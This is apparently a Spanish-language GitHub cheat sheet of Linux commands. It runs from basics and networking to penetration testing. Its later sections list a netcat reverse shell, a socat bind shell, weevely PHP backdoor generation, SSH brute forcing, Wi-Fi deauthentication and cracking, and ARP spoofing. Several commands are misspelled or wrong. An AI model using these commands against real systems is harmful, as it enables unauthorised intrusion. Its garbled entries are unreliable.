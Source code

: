 # C0digo-b4sico
# 01. Código de comandos básicos para Linux:
   
* `pwd` - Directorio actual
* `ls` - Lista los archivos del directorio
* `cd` - Cambia de directorio
* `mkdir <carpeta>` - Crea una carpeta
* `rm <archivo>` - Borra un archivo
* `rmdir -r <carpeta>`- Borra una carpeta
* `cp <archivo> <destino>` - Copia archivos
* `mv <archivo> <destino>` - mueve/cambia de nombre archivos
* `touch <archivo>` - Crea un archivo
* `cat <archivo>` - Muestra el contenido de un archivo
* `nano <archivo>` - Editor de archivo Nano
* `vim <archivo>` - Editor de archivo Vim
* `find / -nombre <archivo>` - Busca un archivo
* `grep "texto" <archivo>` - Busca un texto en un archivo 
* `history` - Muestra la historia de comandos

# 02. Comandos de información del sistema:

* `uname -a` - Muestra información del sistema
* `whoami` - Muestra el usuario actual
* `id `- Muestra el ID del usuario y del grupo
* `ptime` - Muestra la cantidad de tiempo del sistema está operativo
* `df -h` - Muestra el uso del disco
* `du -sh` <carpeta> - Muestra el tamaño de una carpeta
* `top` - Muestra procesos activos
* `ps aux` - Lista los procesos que se están ejecutando
* `kill <ID proceso>` - Termina un proceso
* `htop` - Gestion de procesos interactivos

# 03. Uso de comandos de gestión:

* `adduser <usuario>` - Añade un nuevo usuario
* `deluser <usuario>` - Elimina un usuario
* `passwd <usuario>` - Cambia la contraseña
* `usermod -aG sudo <usuario>` - Da acceso de superusuario
* `groups <usuario>` - Muestra los grupos del usuario
* `chmod 777 <archivo>` - Cambia los permisos del archivo
* `chown usuario:grupo <archivo>` - Cambia el dueño del archivo

# 04. Comandos en redes:

* `ifconfig` - Muestra la interfaz de la red
* `ip a` - Muestra la dirección IP
* `iwconfig` - Muestra la interfaz wifi
* `ping <IP>` - Test de conexión IP
* `netstat -tulnp` - Muestra los puertos abiertos
* `nmap <IP>` - Escanea los puertos abierto del objetivo
* `traceroute <IP>` - Traza una ruta a un host
* `curl <URL>` - Busca datos de una URL
* `wget <URL>` - Descarga un archivo
* `dig <dominio>` - Obtiene infomacion DNS
* `nslookup <dominio>` - Realiza una busqueda de DNS

# 05. Comandos de Hacking & Test de Penetración:

* `msfconsole` - Inicia Mestasploit
* `msfvenom` - Genera cargas útiles (payloads)
* `searchsploit <exploit>` - Busca exploits
* `sqlmap -u <URL> --dbs` - Test de SQL injection
* `hydra -l user -P pass.txt <IP> shh` - SSH de fuerza bruta
* `john --wordlist=rockyou.txt hash.txt` - Crackea hashes
* `airmon-ng start wlan0` - Permite modo monitorización
* `airdump-ng wlan0mon` - Captura paquetes wifi
* `airplay-ng -0 10 -a <BSSID> wlan0mon` - Desautentica clientes
* `aircrack-ng -w rockyou.txt -b <BSSID> <archivo_capturado>` - Crackea contraseña WIFI
* `hashcat -m 2500 hash.txt rockyou.txt` - Cracka hashes usando GPU
* `ettercap -T -q -i eth0` - Realiza una suplantación de ARP
* `driftnet -i eth0` - Captura imágenes del trafico de red
* `tcpdump -i eth0` - Captura paquetes de red
* `tshark -i eth0` - Analisis del trafico de red
* `nikto -h <URL>` - Escanea nulnerabilidades de servidores web
* `gobuster dir -u <URL> -w /urs/share/wordlists/dirb/common.txt` - Fuerza bruta de la carpeta
* `wpscan --url <URL>` - Escanea vulnerabilidades en WordPress

#06. Escalada de Privilegios & Post-Explotaciones:

* `sudo -l` - Muestr los privilegios de superusuario
* `sudo su` - Cambia a usuario root
* `python -c 'import pty:pty.spawn("/bin/bash/")'` - Habilita el shell/terminal
* `nc -lvnp <puerto>` - Empieza un Netcat de escucha
* `nc <IP> <puerto> -e /bin/bash` - Shell inverso
* `meterpreter> getuid` - Muestra el usuario actual en Meterpreter
* `meterpreter> getsystem` - Intenta escalar privilegios
* `meterpreter> upload / download <archivo>` - Transfiere archivos
* `merterpreter> shell` - Obterner shell/terminal del sistema
* `linux-exploit-suggester` - Sugiere exploits para escalada de privilegios

# 07. Cifrado de Archivos & Datos:

* `gpg -c <archivo>` - Cifra un archivo
* `gpg -d <archivo.gpg>` - Descifra un archivo
* `openssl enc -aes-256-cbc -salt -in <archivo> -out <archivo.enc>` -  Cifra usando OpenSSL
* `openssl enc -d -aes-256-cbc -salt -in <archivo.enc> -out <archivo>` - Descifra el archivo

# 08. Forense & Esteganografía:

* `string <archivo>` - Extrae los strigns de un archivo
* `binwalk <archivo>` - Analiza binarios
* `foremost -i <imagen>` - Extrae archivos de una imagen
* `exiftool <archivo>` - Muestra los metadatos de un archivo
* `stegseek <archivo steg/stegfile>` - Detecta datos ocultos en una imagen

# 09. Cracking de Contraseñas & Hashes:

* `hashid <hash>` - Identifica el tipo de hash
* `hydra -L users.txt -P passwords.txt ssh://<IP>` - Fuerza bruta SSH
* `john hash.txt --wordlists=rockyou.txt` - Crackea hashes de contraseñas

# 10. Tests de Aplicaciones Web:

* `dir <URL>` - Enumeracion de carpetas
* `wfuzz -c -z file,wordlists.txt --hc 404 <URL>/FUZZ` - Web fuzzing
* `xsssniper -u <URL>` - Test para XSS
* `commix --url <URL>` - Test de inyección de comandos
* `burpsuite` - Test con Burp Suite

# Varios:

* `crunch 8 8 abcdefghijklmnopqrstuvwxyz` - Genera una wordlist
* `proxychains nmap -sT -Pn <IP>` - Usa proxychains con Nmap
* `tor` - Abre navegador Tor
* `mitmproxy` - Empieza un proxy de man-in-the-middle
* `setoolkit` - Comienza una Ingenieria Social con Toolkit
* `cewl -w words.txt -d 5 <URL>` - Genera una lista de palabras personalizadas
* `weevely generate password backdoor.php` - Crea una backdoor en una web
* `socat TCP-LISTEN:4444,fork EXEC:/bin/bash` - Une el shell
* `whois <dominio>` - Da información sobre el dominio
* `theHarvester -d <dominio> -l 100 -b google` - Recolecta información sobre email y subdominios
* `fcrackzip -u -D -p rockyou.txt <archivo.zip>` - Crackea una contraseña de un archivo .zip
* `dnscan -d <dominio>` - Muestra subdominios
